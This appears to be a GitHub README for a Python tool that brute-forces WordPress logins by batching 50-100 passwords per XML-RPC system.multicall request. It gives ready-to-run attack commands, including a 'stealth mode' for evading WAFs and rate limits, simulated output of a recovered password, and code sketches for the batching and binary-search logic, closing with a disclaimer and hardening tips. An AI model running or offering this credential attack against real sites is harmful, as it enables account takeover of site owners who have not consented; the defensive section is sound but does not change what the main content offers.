

<div align="center">

```
     ██████╗ █████╗  ██████╗ ███████╗██████╗ ███████╗██╗   ██╗
    ██╔════╝██╔══██╗██╔═══██╗██╔════╝██╔══██╗██╔════╝██║   ██║
    ██║     ███████║██║   ██║███████╗██║  ██║█████╗  ██║   ██║
    ██║     ██╔══██║██║   ██║╚════██║██║  ██║██╔══╝  ╚██╗ ██╔╝
    ╚██████╗██║  ██║╚██████╔╝███████║██████╔╝███████╗ ╚████╔╝ 
     ╚═════╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝╚═════╝ ╚══════╝  ╚═══╝  
```

# 🔥 XMLRPC-BRUTE 🔥

### ⚡ *WordPress XML-RPC Exploitation Framework* ⚡

[](https://www.python.org/)
[]()
[]()
[]()

**`system.multicall weaponized`** • **`Binary search algorithm`** • **`50-100 passwords/request`**

[🚀 Features](#-features) • [📦 Installation](#-installation) • [⚡ Usage](#-usage) • [🎯 Demo](#-demo) • [⚠️ Disclaimer](#%EF%B8%8F-legal-disclaimer)

---

</div>

## 🎯 Overview

**caosdev-xmlrpc-brute** is an advanced WordPress penetration testing tool that exploits XML-RPC's `system.multicall` functionality to perform **hyper-optimized** brute force attacks. Unlike traditional methods that test one password at a time, this tool batches **50-100 passwords per request**, making it **20-50x faster** than conventional approaches.

### ☕ Why This Tool?

```diff
+ ⚡ Batch Testing: 50-100 passwords per request vs traditional 1 password
+ 🔍 Binary Search: O(log n) credential discovery algorithm  
+ 🛡️ Smart Detection: Automatic WAF/Rate limiting detection
+ 📊 Real-time Stats: Beautiful progress tracking with live metrics
+ 💾 Auto-save: Credentials automatically saved with timestamps
+ 🎨 Beautiful UI: Colored terminal output with emojis
```

---

## 🔥 Features

<table>
<tr>
<td>

### ⚡ Performance
- **Batch Optimization**: Test up to 100 passwords per single request
- **Binary Search**: Intelligent O(log n) password identification
- **Multi-threading Ready**: Async-compatible architecture
- **Smart Delays**: Configurable rate limiting

</td>
<td>

### 🛡️ Evasion
- **WAF Detection**: Auto-detect Cloudflare, Sucuri, Wordfence
- **403/429 Handling**: Intelligent blocking detection
- **Custom User-Agent**: Mimic legitimate browsers
- **Adaptive Delays**: Dynamic request pacing

</td>
</tr>
<tr>
<td>

### 📊 Analytics
- **Live Progress Bars**: Real-time attack visualization
- **Success Rate Tracking**: Passwords/second metrics
- **Error Reporting**: Detailed failure analysis
- **Statistics Dashboard**: Complete attack summary

</td>
<td>

### 🎨 UX/UI
- **Colored Output**: ANSI terminal styling
- **Emoji Icons**: Visual feedback system
- **Clean Logging**: Structured log levels
- **Verbose Mode**: Debug-level information

</td>
</tr>
</table>

---

## 📦 Installation

### Quick Start

```bash
# Clone the repository
git clone https://github.com/henriqqw/caosdev-xmlrpc-brute.git

# Navigate to directory
cd caosdev-xmlrpc-brute

# Install dependencies
pip3 install requests

# Run the tool
python3 xmlrpc_caosbrute.py --help
```

### Requirements

```python
Python >= 3.7
requests >= 2.25.0
```

---

## ⚡ Usage

### 🎯 Basic Attack

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w wordlist.txt
```

### 🔥 Advanced Attack

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w rockyou.txt \
  --stop-on-success \
  --verbose \
  -b 100 \
  -d 0.3 \
  -t 20 \
  -o pwned.txt
```

### 🛡️ Stealth Mode (Evade WAF)

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w wordlist.txt \
  -b 25 \
  -d 2 \
  -t 30 \
  --verbose
```

---

## 📋 Parameters Reference

| Parameter | Short | Description | Default | Example |
|-----------|-------|-------------|---------|---------|
| `--username` | `-u` | Target username | *Required* | `admin` |
| `--wordlist` | `-w` | Wordlist file path | *Required* | `rockyou.txt` |
| `--batch-size` | `-b` | Passwords per request | `50` | `100` |
| `--delay` | `-d` | Delay between requests (s) | `0.5` | `1.0` |
| `--timeout` | `-t` | Request timeout (s) | `15` | `30` |
| `--stop-on-success` | - | Stop when found | `False` | - |
| `--verbose` | - | Verbose output | `False` | - |
| `--output` | `-o` | Output file | `credentials.txt` | `pwned.txt` |
| `--no-banner` | - | Hide banner | `False` | - |

---

## 🎬 Demo

### 🚀 Attack in Progress

```
---------------------------------------------------------------------
                                         █████                     
                                        ░░███                      
  ██████   ██████    ██████   █████   ███████   ██████  █████ █████
 ███░░███ ░░░░░███  ███░░███ ███░░   ███░░███  ███░░███░░███ ░░███ 
░███ ░░░   ███████ ░███ ░███░░█████ ░███ ░███ ░███████  ░███  ░███ 
░███  ███ ███░░███ ░███ ░███ ░░░░███░███ ░███ ░███░░░   ░░███ ███  
░░██████ ░░████████░░██████  ██████ ░░████████░░██████   ░░█████   
 ░░░░░░   ░░░░░░░░  ░░░░░░  ░░░░░░   ░░░░░░░░  ░░░░░░     ░░░░░    
                                                                   
            Python Bruteforce XMLRPC - by caosdev
                       version 1.0.0
---------------------------------------------------------------------
XML-RPC bruteforce on steroids
⚠️  WARNING: AUTHORIZED TESTING ONLY ⚠️

════════════════════════════════════════════════════════════
[🚀] Starting brute-force at 20:15:30
════════════════════════════════════════════════════════════

[🎯] Target:   https://target.com/xmlrpc.php
[👤] User:     admin
[📚] Wordlist: rockyou.txt
[⚙️] Config:   batch=50 | delay=0.5s | timeout=15s

────────────────────────────────────────────────────────────
[🔍] Testing XML-RPC availability...
[✓] XML-RPC is accessible and responding!
[✓] Loaded 14,344,391 passwords from wordlist
────────────────────────────────────────────────────────────

┌──────────────────────────────────────────────────────────┐
│ 💀 Batch   1/286888 │ Tested:     50/14344391            │
│ [█░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░] 0.0%           │
└──────────────────────────────────────────────────────────┘
  ℹ️ Status: 200 | Size: 10,887 bytes
  ✗ No valid password in this batch

┌──────────────────────────────────────────────────────────┐
│ 💀 Batch   2/286888 │ Tested:    100/14344391            │
│ [█░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░] 0.0%           │
└──────────────────────────────────────────────────────────┘
  ℹ️ Status: 200 | Size: 10,887 bytes
  ✓ Valid credential detected in batch!
  🔍 Identifying specific password...

┌──────────────────────────────────────────────────────────┐
│  AUTHENTICATION SUCCESSFUL                               │
├──────────────────────────────────────────────────────────┤
│ 👤 User:     admin                                       │
│ 🔑 Password: password123                                 │
└──────────────────────────────────────────────────────────┘

[💾] Saved to: credentials.txt
[🛑] Stopping (--stop-on-success)

┌──────────────────────────────────────────────────────────┐
│ 📊 ATTACK STATISTICS                                     │
├──────────────────────────────────────────────────────────┤
│ Tested passwords:      100                               │
│ Requests:                2                               │
│ Elapsed time:       1.23s (0.0 min)                      │
│ Test rate:          81.3 passwords/sec                   │
├──────────────────────────────────────────────────────────┤
│ 403 Blocks:              0                               │
│ 429 Blocks:              0                               │
│ Network errors:          0                               │
└──────────────────────────────────────────────────────────┘
```

---

## 🔧 How It Works

### 🎯 Architecture Overview



### ⚡ Optimization Techniques

#### 1️⃣ **Batch Processing (system.multicall)**

Traditional brute force:
```xml
<!-- One password per request -->
<methodName>wp.getUsersBlogs</methodName>
<params>
  <param><string>admin</string></param>
  <param><string>password1</string></param>
</params>
```

**caosdev-xmlrpc-brute:**
```xml
<!-- 50-100 passwords per request -->
<methodName>system.multicall</methodName>
<params>
  <param>
    <array>
      <!-- Call 1: password1 -->
      <!-- Call 2: password2 -->
      <!-- ... -->
      <!-- Call 50: password50 -->
    </array>
  </param>
</params>
```

#### 2️⃣ **Binary Search Discovery**

When a batch contains a valid password:
```python
# Traditional: Test each password (O(n))
for password in batch:
    if test(password): return password

# caosdev: Binary search (O(log n))
def find_password(batch):
    if len(batch) == 1: return batch[0]
    mid = len(batch) // 2
    if test(batch[:mid]):
        return find_password(batch[:mid])
    else:
        return find_password(batch[mid:])
```

#### 3️⃣ **Smart Detection**

```python
# Response Analysis
if '<params>' in response and '<name>blogid</name>' in response:
    return SUCCESS  # Valid credentials
elif '<fault>' in response:
    return FAILURE  # Invalid credentials
elif status_code == 403:
    return WAF_DETECTED
elif status_code == 429:
    return RATE_LIMITED
```

---

## 📊 Performance Comparison

| Method | Requests | Time | Speed |
|--------|----------|------|-------|
| **Traditional Brute Force** | 10,000 | ~83 min | 2 pass/sec |
| **caosdev-xmlrpc-brute (b=50)** | 200 | ~2 min | 83 pass/sec |
| **caosdev-xmlrpc-brute (b=100)** | 100 | ~1 min | 166 pass/sec |

> **Note**: Times assume 0.5s delay between requests. Actual performance varies based on server response time and network latency.

---

## ⚠️ Legal Disclaimer

```
╔═══════════════════════════════════════════════════════════════╗
║                                                               ║
║  ⚠️  WARNING: AUTHORIZED PENETRATION TESTING ONLY ⚠️          ║
║                                                               ║
║  This tool is designed for EDUCATIONAL PURPOSES and           ║
║  AUTHORIZED SECURITY TESTING only.                            ║
║                                                               ║
║  ❌ Unauthorized access to computer systems is ILLEGAL        ║
║  ❌ Violates Computer Fraud & Abuse Act (CFAA) in USA         ║
║  ❌ Similar laws exist worldwide (UK, EU, etc.)               ║
║  ❌ Can result in criminal prosecution and imprisonment       ║
║                                                               ║
║  ✅ Only use on systems you OWN                               ║
║  ✅ Only use with EXPLICIT WRITTEN PERMISSION                 ║
║  ✅ Use for authorized penetration testing                    ║
║  ✅ Use for educational security research                     ║
║                                                               ║
║  The author(s) assume NO LIABILITY for misuse of this tool.   ║
║  You are responsible for your own actions.                    ║
║                                                               ║
╚═══════════════════════════════════════════════════════════════╝
```

### 🚨 Responsible Disclosure

If you discover vulnerabilities using this tool:
1. **DO NOT** exploit them maliciously
2. Report them to the site owner privately
3. Allow reasonable time for fixes (90 days standard)
4. Follow coordinated disclosure practices

---

## 🛡️ Defense Recommendations

### For WordPress Administrators:

#### 1️⃣ **Disable XML-RPC** (if not needed)
```php
// In wp-config.php or functions.php
add_filter('xmlrpc_enabled', '__return_false');
```

#### 2️⃣ **Limit XML-RPC Access** (.htaccess)
```apache
<Files xmlrpc.php>
  Order Deny,Allow
  Deny from all
  Allow from YOUR.IP.ADDRESS
</Files>
```

#### 3️⃣ **Use Security Plugins**
- **Wordfence**: Blocks brute force attempts
- **iThemes Security**: Disables XML-RPC
- **Sucuri**: WAF protection

#### 4️⃣ **Strong Password Policy**
- Minimum 16 characters
- Mix of uppercase, lowercase, numbers, symbols
- Use password managers
- Enable 2FA

#### 5️⃣ **Monitor Logs**
```bash
# Check for XML-RPC attacks
grep "xmlrpc.php" /var/log/apache2/access.log | grep POST
```

---

## 🤝 Contributing

Contributions are welcome! Here's how you can help:

### 🐛 Bug Reports
Found a bug? [Open an issue](https://github.com/henriqqw/caosdev-xmlrpc-brute/issues) with:
- Detailed description
- Steps to reproduce
- Expected vs actual behavior
- System info (OS, Python version)

### ✨ Feature Requests
Have an idea? [Submit a feature request](https://github.com/henriqqw/caosdev-xmlrpc-brute/issues) with:
- Clear use case
- Expected behavior
- Potential implementation approach

### 🔧 Pull Requests
Want to contribute code?
1. Fork the repository
2. Create a feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

---

## 📚 Additional Resources

### 🎓 Learn More About XML-RPC
- [WordPress XML-RPC Documentation](https://codex.wordpress.org/XML-RPC_Support)
- [XML-RPC Specification](http://xmlrpc.com/spec.md)
- [OWASP XML-RPC Security](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

### 🔐 Penetration Testing Resources
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackerOne Disclosure Guidelines](https://www.hackerone.com/disclosure-guidelines)
- [Bug Bounty Platforms](https://bugbountylist.com/)

---

## 📜 License

This project is released under the **Educational Use License**.

```
Copyright (c) 2024 caosdev

Permission is granted to use this software for educational purposes
and authorized security testing only. Any unauthorized use, including
but not limited to illegal access to computer systems, is strictly
prohibited and may result in criminal prosecution.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND.
```

---

## 👨‍💻 Author

<div align="center">

### **caosdev**

[](https://github.com/henriqqw)
[](https://twitter.com/caosdev)

*"Organized chaos, weaponized code"*

</div>

## 📈 Star History

[](https://star-history.com/#henriqqw/caosdev-xmlrpc-brute&Date)

---

<div align="center">

### 💀 *"From XML tags to root flags"* 💀

**If this tool helped your pentest, drop a ⭐**

**Remember: With great power comes great responsibility**

---

Made with ☕ by [caosdev](https://github.com/henriqqw)

</div>